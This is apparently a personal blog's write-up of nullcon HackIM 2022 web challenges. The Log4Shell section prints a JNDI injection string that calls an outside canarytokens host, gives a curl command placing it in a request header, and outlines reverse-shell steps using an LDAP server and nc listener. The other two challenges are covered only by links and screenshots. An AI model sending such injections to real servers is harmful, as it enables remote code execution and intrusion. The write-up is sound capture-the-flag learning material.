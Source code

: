 ```yaml
---
layout: single
title: nullcon HackIM 2022
excerpt: nullcon HackIM 2022 Web Writeups
date: 2022-4-11
classes: wide
header:
  teaser: 
  teaser_home_page: false
  icon:
categories:
  - ctf
tags:  
  - nullcon HackIM 2022
  - web
---
```




| CTFTime Place | Points | Team |
| --- | --- | --- |
| [30](https://ctftime.org/event/1594/) | 912.000 | Solo - trelosgamiolis |


# 0x1 log4u
### Challenge Description
```A teacher once told me to "never log things you can't trust...", but it's such a nice business opportunity, so I couldn't resist.```


![b1a57c3f-71e1-4bbf-b299-717490b428fd](https://user-images.githubusercontent.com/45040001/162817938-341792b4-52b0-4d0b-8a90-cc8598d2b0d6.png)


## Identify log4shell vulnerability by triggering a DNS query
"The simplest way to detect if a remote endpoint is vulnerable is to trigger a DNS query. As explained above, the exploit will cause the vulnerable server to attempt to fetch some remote code. By using the address of a free online DNS logging tool in the exploit string, we can detect when the vulnerability is triggered."

![image](https://user-images.githubusercontent.com/45040001/162826021-f43f8f75-bd20-44c0-be68-52378c202bb3.png)
### Generated log4shell token:
```java
${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}
```

"CanaryTokens.org is an Open Source web app for this purpose that even generates the exploit string automatically and sends an email notification when the DNS is queried. Select Log4Shell from the drop-down menu. Then, embed the string in a request field that you expect the server to log. This could be in anything from a form input to an HTTP header. In our example above, the X-Api-Version header was being logged. This request should trigger it:"

```bash
curl $URL -H 'X-Api-Version: ${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}'
```
![Screenshot_2022-04-08_21_17_11](https://user-images.githubusercontent.com/45040001/162826208-c584bd56-8411-4d8e-944e-71bc5925fd36.png)

## POC
[log4j shell poc](https://github.com/kozmer/log4j-shell-poc)

## Exploit Steps
- Generate a reverse shell java class(just modify the poc for forward attack)
- Upload the reverse shell java class in HTTP Server 
- Start malicious ldap server giving the HTTP Server URL for redirecting the victim
- Start nc listener for reverse shell

## Upload reverse shell 
![Screenshot_2022-04-08_23_47_51](https://user-images.githubusercontent.com/45040001/162830955-a74283af-35c7-454e-8a61-dd7534a3ff69.png)

## Final flag
![flag](https://user-images.githubusercontent.com/45040001/162826580-8d33dcae-e97f-4cdc-9679-749646111c9b.png)


# 0x2 texnology

[POC](https://0day.work/hacking-with-latex/)

![Screenshot 2022-04-09 040948](https://user-images.githubusercontent.com/45040001/162831563-36117819-1344-4196-afcc-3200b2cb6a43.png)
![flag](https://user-images.githubusercontent.com/45040001/162831557-7e81bc96-5c76-4b23-ae58-c2057730f618.png)

# 0x3 fil3serv3r

![path_escape](https://user-images.githubusercontent.com/45040001/162831826-38411b88-b19b-4550-b6ab-c218a34e8b10.png)

![flag](https://user-images.githubusercontent.com/45040001/162831828-1529c4d4-b02c-455e-9b7d-d5c0ccf095c2.png)


